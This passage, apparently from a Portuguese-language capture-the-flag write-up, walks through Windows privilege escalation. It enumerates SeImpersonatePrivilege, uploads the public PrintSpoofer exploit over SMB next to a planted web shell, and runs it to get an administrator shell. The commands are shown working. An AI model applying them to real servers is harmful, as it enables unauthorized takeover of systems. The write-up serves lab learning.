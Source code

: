 ### Escalação de privilégios

Ao enumerar os privilégios do usuário, encontramos algo interessante.

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
O usuário tem o privilégio `SeImpersonatePrivilege` habilitado, basicamente podemos representar um cliente e suas configurações de segurança, mais detalhes [aqui](https://docs.microsoft.com/pt-br/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege).

Depois de um tempo de pesquisa, encontrei uma vulnerabilidade do `PrintSpoofer` do Windows que abusa dos privilégios de impersonate, o resumo pode ser lido [aqui](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

Esta vulnerabilidade já possui um exploit público que pode ser encontrado [aqui](https://github.com/dievus/printspoofer).

Após fazer o download do executável, podemos subir para a máquina alvo através do SMB.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ smbclient \\\\10.10.226.231\\nt4wrksv                 
Enter WORKGROUP\hastur's password: 
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe 
putting file PrintSpoofer.exe as \PrintSpoofer.exe (19.3 kb/s) (average 19.3 kb/s)
smb: \> ls
  .                                   D        0  Tue Sep  7 19:46:54 2021
  ..                                  D        0  Tue Sep  7 19:46:54 2021
  hastur.aspx                         A     3425  Tue Sep  7 19:30:01 2021
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  PrintSpoofer.exe                    A    27136  Tue Sep  7 19:46:55 2021

                7735807 blocks of size 4096. 5143276 blocks available
smb: \> 
```
Agora com tudo pronto, só precisamos rodar o comando `PrintSpoofer.exe -i -c cmd` e obter o shell administrativo.

